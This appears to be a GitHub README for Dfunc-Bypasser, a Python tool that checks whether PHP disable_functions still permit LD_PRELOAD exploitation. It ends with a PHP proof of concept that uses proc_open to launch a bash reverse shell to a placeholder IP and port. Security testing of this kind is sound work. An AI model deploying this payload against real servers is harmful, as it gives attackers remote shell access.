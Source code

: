 <p align="center"><img src="images/banner.png" /></p>

# Dfunc-Bypasser
This is a tool that can be used by developers to check if exploitation using LD_PRELOAD is still possible given the current disable_functions in the php.ini file and taking into consideration the PHP modules installed on the server.

## Installation
`git clone https://github.com/UsifAraby/dfunc-bypasser-python3.git`

## Usage
There are two options to input the disable_functions list:
1. For help on the parameters:
`python3 dfunc-bypasser-python3.py -h`
2. Provide the phpinfo url:
`python3 dfunc-bypasser-python3.py --url https://example.com/phpinfo.php`
3. Provide the local phpinfo file:
`python3 dfunc-bypasser-python3.py --file dir/phpinfo`
4. Provide an additional header:
`python3 dfunc-bypasser-python3.py -H "Special-Header: dev"`

## Contributers
1. S Ashwin Shenoi
    * Github: [ashwinshenoi99](https://github.com/ashwinshenoi99)
    * Twitter: [c3rb3ru5](https://twitter.com/__c3rb3ru5__)
2. Tarunkant Gupta
    * Github: [tarunkant](https://github.com/tarunkant/)
    * Twitter: [TarunkantG](https://twitter.com/TarunkantG)

from team [bi0s](https://bi0s.in)

## Screenshots

<img width="1101" height="621" alt="image" src="https://github.com/user-attachments/assets/0df047f4-4ecd-47a5-9369-fc1718a275b5" />


## RCE through `proc_open` :

```
<?php
// Vulnerable PHP versions: 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8

$command = "bash -c 'bash -i >& /dev/tcp/{Custom_IP}/{Custom_PORT} 0>&1'";
$descriptors = [
  0 => ['pipe','r'],
  1 => ['pipe','w'],
  2 => ['pipe','w']
];
$process = proc_open($command, $descriptors, $pipes);
if (is_resource($process)) {
    echo stream_get_contents($pipes[1]);
    proc_close($process);
} else {
    echo "proc_open failed\n";
}

?>
```

<img width="1878" height="891" alt="image" src="https://github.com/user-attachments/assets/c7ba7445-828d-42b6-b413-a241cdd08e8c" />




